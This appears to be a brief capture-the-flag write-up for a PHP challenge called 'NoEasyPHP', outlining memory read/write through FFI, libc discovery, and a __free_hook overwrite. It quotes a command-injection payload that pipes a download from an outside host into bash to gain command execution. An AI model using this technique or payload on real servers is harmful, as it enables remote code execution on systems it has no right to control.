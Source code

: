 # NoEasyPHP

- FFI was enabled, easy arbitrary read/write in memory
- Dumped like 20 mb of remote memory to figure out their libc version, code in [sice.py](sice.py)
- Overwrite __free_hook with system and freed a string with ";curl pb.hn|bash;#" in it, giving command exec
- Final exploit in [solve.php](solve.php)
